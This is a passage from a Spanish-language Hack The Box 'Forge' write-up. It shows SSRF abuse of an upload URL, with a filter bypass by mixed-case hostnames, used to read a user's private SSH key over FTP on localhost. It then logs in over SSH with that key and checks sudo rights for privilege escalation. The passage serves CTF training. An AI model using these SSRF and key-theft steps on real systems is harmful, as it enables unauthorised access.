 ```bash
❱ python3 playWithURL.py 'http://admin.foRge.htb/upload?u=ftp://user:heightofsecurity123!@locAlhost'
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap          
-rw-r-----    1 0        1000           33 Oct 25 09:44 user.txt
```

Nos responde con archivos del `/home`, pues entonces estamos sobre ese directorio, únicamente debemos añadir `/.ssh/id_rsa` y validar:

```bash
❱ python3 playWithURL.py 'http://admin.foRge.htb/upload?u=ftp://user:heightofsecurity123!@locAlhost/.ssh/id_rsa'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/forge/376bash_URLplayPY_idRSA.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

EFECTIVAMENTEEEEEEEEEEEEEEEEEEE!! Encontramos una llave **SSH** privada, con lo cual podemos probar a iniciar sesión como `user` usándola, la tomamos, la pegamos en un archivo y le damos los permisos necesarios:

```bash
❱ chmod 600 user.id_rsa
```

Yyyyy con **SSH** le pasamos el archivo con la llave privada:

```bash
❱ ssh user@forge.htb -i user.id_rsa
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/forge/376bash_userSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Listones, tamos dentroooooooo!

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando los permisos que tenemos contra otros usuarios vemos esto:

```bash
user@forge:~$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

Tenemos la posibilidad de ejecutar el script `/opt/remote-manage.py` con el binario `/usr/bin/python3` como cualquier usuario ([(ALL : ALL)](https://slimbook.es/tutoriales/linux/86-anadir-usuario-al-fichero-sudoers)), por lo tanto, podemos correrlo como `root`, echémosle un ojo:

```bash
user@forge:~$ cat /opt/remote-manage.py
```
